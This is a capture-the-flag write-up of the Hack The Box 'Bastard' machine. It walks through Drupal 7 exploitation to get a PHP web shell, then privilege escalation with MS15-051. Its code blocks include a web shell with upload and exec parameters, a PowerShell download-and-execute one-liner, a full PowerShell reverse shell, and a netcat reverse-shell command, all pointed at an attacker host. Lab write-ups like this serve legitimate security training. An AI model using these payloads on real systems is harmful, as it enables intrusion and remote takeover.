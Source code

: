 ![logo](/logo.png)

# [Bastard- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 18 Mar 2017 as the seventh machine on HTB,Bastard created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Ms15-051
  *Drupal
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/optimum 10.10.10.8
```

###### Output 
![](/Windows/Windows-Medium/Bastard/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/bastard 10.10.10.9                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 20:56 EAT
Nmap scan report for 10.10.10.9
Host is up (0.38s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.55 seconds
```

looking at the results  we find out that there are 3 ports open and its a `Microsoft IIS httpd 7.5 `and its running an `Drupal 7`. 

port[80]-  http
port[135]-msrpc
port[49154]-msrpc

looking at the port 80 we find a landing page [http://10.10.10.9](http://10.10.10.9)

![](/Windows/Windows-Medium/Bastard/Screenshots/bastard.png)so we try to look for the version of the drupal but on the nmap we see that their is  a changelog so we try to see what we can find in the changelog

![](/Windows/Windows-Medium/Bastard/Screenshots/changelog.png)

now searching for the exploit using searchsploit reveles that drupal 7.x can be a potential exploit of a `Remote code Execution` 

```sh
searchsploit Drupal 7.x
```

![](/Windows/Windows-Medium/Bastard/Screenshots/searchsploit.png)

lets examine the exploit to see what it does.looking at the exploit it trying to abuse the `PHP Seriallization` . The exploit requires a few small modifications to run successfully. There is a syntax error on line 16 as well as line 71. The variables that must be modified are `url`, `endpoint_path`,`filename` and `data`.

![](/Windows/Windows-Medium/Bastard/Screenshots/exploit.png)
so we have to modify the code a bit best on the gobuser i ran earlier i found out something intresting which is a endpoint which is `rest`

![](Windows/Windows-Medium/Bastard/Screenshots/rest.png)

the change would be like this just also to add some interactivity on the shell

![](/Windows/Windows-Medium/Bastard/Screenshots/modified.png)

```sh
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<< 'EOD'
<?php 
  if (isset($_REQUEST['fupload'])) {
   file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.9:8000/" .$_REQUEST['fupload']));
   };
  if (isset($_REQUEST['fexec'])) {
   echo "<pre>" .shell_exec($_REQUEST['fexec']) . "<pre>";
  };
?>
EOD;


$file = [
    'filename' => 'leshack.php',
    'data' => $phpCode

```

now we run the script to execute the exploit

![](/Windows/Windows-Medium/Bastard/Screenshots/drupal.png)

so when follow the [http://10.10.10.9/leshack.php](http://10.10.10.9/leshack.php) and execute something from the browser we get a some remote execution

![](/Windows/Windows-Medium/Bastard/Screenshots/remote.png)

running the exploit will create the specified PHP file as well as generate `user.json` and
`session.json` locally. The session file contains valid cookie data for the Drupal `admin user`, and it
is possible to directly paste PHP code into a new Drupal module. Logging in as the admin user is
fairly simple and can be achieved by creating a new cookie

PHP execution can be achieved by enabling the PHP Filter module on the Modules page.
Afterwards, simply browse to Add content then to Article. Pasting PHP into the article body,
changing the Text format to PHP code and then clicking on Preview allows for easy code
execution.

# Privillage Escalation

so we check the  `systeminfo` to see if we can get any information

![](/Windows/Windows-Medium/Bastard/Screenshots/systeminfo.png)

now we first have to get a good shell so what we do after getting the remote code execution is to be able to get a good shell 

```sh
http://10.10.10.9/leshack.php?fexec=echo%20IEX%20(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.9:8000/bastard.ps1%27)%20|%20powershell%20-noprofile%20-
```

the exploit we just replicate from the prevoius box optimum

```sh
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.9',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

we set a listner to listen for the `bastard.ps1` 

![](/Windows/Windows-Medium/Bastard/Screenshots/pythonserver.png)

![](/Windows/Windows-Medium/Bastard/Screenshots/reverseshell.png)

As the target is a fresh install of `Windows Server 2008`, it is fairly easy to exploit. No service
packs or hotfixes have been installed.so we run  the sherlock script just like the prevous box to see if we can find something that is vulnerable

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/sherlork.ps1')
```

![](/Windows/Windows-Medium/Bastard/Screenshots/sherlok1.png)

This appears to be vulnerable
![](/Windows/Windows-Medium/Bastard/Screenshots/sherlork2.png)

A bit of research reveals quite a few potential exploits,however the most reliable is `MS15-051`. [Exploit](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051)  and also some search on searchsploit reveels more infomation.

![](/Windows/Windows-Medium/Bastard/Screenshots/ms15.png)
it revel some compiled 64.vulnerability that can be uploaded to the machine to be runned.

![](/Windows/Windows-Medium/Bastard/Screenshots/ms152.png)


so we download this zip which has a good `ms15-051`  for 64 Vulnerability [ZIP](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip) Then we run this code so that we can upload the `mS15-051` and also execute to check if it working.

```sh
http://10.10.10.9/leshack.php?fupload=Ms15.exe&fexec=%20Ms15.exe%20whoami
```

![](/Windows/Windows-Medium/Bastard/Screenshots/ms153.png)

checking at the shell we see it has uploaded 

![](Windows/Windows-Medium/Bastard/Screenshots/ms154.png)

now when we go and run we get a confirmation

![](/Windows/Windows-Medium/Bastard/Screenshots/whoami.png)

since we can execute some command using that we need a permanet shell that is easy to use so what we can do is to download a 64 `nc` so that we can use it to execute a reverse shell into the root user. [nc](https://github.com/int0x33/nc.exe/blob/master/nc64.exe) we just upload it the way we uploaded the `Ms15.exe`

and by doing this from the shell 

```sh
./Ms15.exe "nc64.exe -e cmd 10.10.14.9 1338"
```

![](/Windows/Windows-Medium/Bastard/Screenshots/shellcode.png)

or this from the webrowser

![](Windows/Windows-Medium/Bastard/Screenshots/webbrowser.png)

we get a shell

![](/Windows/Windows-Medium/Bastard/Screenshots/executableshell.png)

Then now we obtain the `root and user flag`

![](Windows/Windows-Medium/Bastard/Screenshots/flags.png)

	-------------------------END successful attack @lesley----------------------
